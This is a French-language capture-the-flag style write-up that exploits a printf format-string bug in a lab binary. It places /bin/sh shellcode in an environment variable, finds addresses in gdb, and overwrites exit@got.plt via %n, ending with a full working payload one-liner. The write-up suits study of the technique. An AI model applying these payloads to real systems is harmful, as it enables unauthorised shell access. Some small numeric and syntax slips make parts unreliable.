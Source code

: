 # Level 05

## Le code

Pour ce niveau 5, on monte d'un cran.

Le programme fait quelques trucs, mais il peut être résumé par:

```txt
char buf[100];
fgets(buf, 100, stdin);
printf(buf);
exit(0);
```

## `printf`

La surface vulnérable est encore sur un `printf` qui a pour entrée
un chaine que l'on peut choisir.

`printf` peut être utilisé de deux manières:

1. On peut l'utiliser pour afficher ce qui se trouve sur la stack, en utilisant
   par example `%08x` pour afficher les 4 derniers octets de la stack.

2. On peut l'utiliser pour écrire des données avec `%n`.

Une bonne resource pour apprendre comment exploiter `printf`: https://cs155.stanford.edu/papers/formatstring-1.2.pdf

Habituellement, l'idée serait d'utiliser `%n` pour modifier l'adresse de retour
de `main` pour la faire partir sur `system` avec `/bin/sh` en paramètre. Cette fois,
on ne peut pas faire comme ça car la fonction `exit` est utilisée, ce qui veut dire
que la fonction ne va jamais se terminer.

Ainsi, une manière d'attaque le programme est de modifier la fonction `exit` et la
remplacer par un shellcode.

## Le plan

Voilà le plan d'attaque:

1. Trouver [un shell code](https://shell-storm.org/shellcode/files/shellcode-585.html) qui lance `/bin/sh`.

2. Placer le shellcode dans la mémoire du programme.

3. Modifier l'adresse de `exit@got.plt` pour qu'elle pointe vers notre shell code.

## Exécution

### Shellcode

Placer le shellcode dans la mémoire du programme est en fait assez simple:
il suffit de le mettre dans les variables d'environnement, qui sont toujours
chargées juste avant la fonction `main` au lancement du programme.

```sh
export SHELLCODE=$(python -c "print '\x90'*50 + '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
```

On notera qu'on ajoute des `0x90`, des instructions NOP qui s'assureront qu'une adresse
alignée sur 16 bits octets existe dans la mémoire.

### Trouver les adresses

Pour pouvoir modifiers l'adresse de `exit` et la remplacer par
celle de notre shellcode, encore faut-il connaître leurs adresses
dans la mémoire.

Pour ça, on peut utiliser `gdb`.

```as
gdb> x/100x $esp
...
0xffffd870:	0x45485300	0x4f434c4c	0x903d4544	0x90909090
0xffffd880:	0x90909090	0x90909090	0x90909090	0x90909090 
0xffffd890:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8a0:	0x90909090	0x90909090	0x90909090	0x5b0beb90
0xffffd8b0:	0xc931c031	0x0bb0d231	0xf0e880cd	0x2fffffff
...
```

En cherchant la série de `0x90`, on trouve assez rapidement une adresse
correctement alignée de notre shellcode.

Pour trouver l'adress de la fonction exit. Il nous suffit de desasembler la fonction avant de lancer le binaire dans GDB.

```txt
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0

```

| Shellcode  | exit@got.plt |
----------------------------
| 0xffffd8a0 | 0x80497e0    |

### Trouver notre input

```
Stack:

| trucs  |
---------- <- Buffer de `fgets`
|bonjour |
|à tous! |
|        |
|        |
|        |
|        |
|        |
|        |
----------
| trucs  |
```

L'idée, c'est qu'en ajoutant des `%08x` dans l'input de `printf`, on peut
afficher l'intégralité de la stack. Cela inclu notament notre chaine d'entrée.

Par example, en utilisant une chaine de caractère reconnaissable, on peut
déterminer la distance de notre input par rapport à l'appel de `printf`
sur la stack.

```txt
./level05
aaaabbbbcccc%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
aaaabbbbcccc00000064f7fcfac0f7ec3af9ffffd66fffffd66e00000000ffffffffffffd6f4f7fdb0006161616162626262636363637838302578383025
```

Nous permet de déterminer que `aaaa` est à une distance de 80 octets. `bbbb`
est à 72 octets, etc.

Pour éviter de devoir écrire tout ces `%08x`, on peut utiliser la syntax
`%10$x` pour directement prendre le 10ième paramètre.

```txt
./level05
aaaa%10$x
```

Donne la bonne valeur.

### Modifier `exit`

En écrivant du texte, on peut choisir ce que `printf` va lire. Jusque là, on lui faisait
afficher `aaaa`, mais on peut aussi l'utiliser pour écrire. `%n` va lire `aaaa` et
écrire à l'adresse `0x61616161` le nombre de caractère qui ont déjà été écrits.

Ainsi,

```
./level05
aaaa%10%n
```
Va écrire écrire `4` à l'adresse `0x61616161` (parce que "aaaa" a une taille de quatre).

L'idée est donc de remplacer:

- `aaaa` par l'adresse de `exit@got.plt`.

- `4` par l'adressed de notre shellcode.

```sh
(python -c "print '\xe0\x97\x04\x08%4294957240x%10\$n'"; cat -) | ./level05
```

On note que `%4294957240x` ajoute `4294957240` charactères à l'input, ce qui,
avec les 4 charactères de départ, donne 4294957248, qui est l'adresse de notre
shellcode en décimal.

Malheureusement, ce code ne marche pas car `printf` utilise un `int`, qui overflow
lorsqu'on lui donne notre adresse. On est donc contrain d'écrire notre valeur
en deux fois.

```sh
(python -c "print '\xe0\x97\x04\x08\xe2\x97\x04\x08%55488x%10\$n%10039x%11\$n'"; cat -) | ./level05
```

Cette fois ci, on écrit à deux adresses différentes, qui correspondent au deux premiers
et deux suivant octets de l'adresse de `exit@got.plt`.

Cette fois ci, l'expoit est fonctionnel.
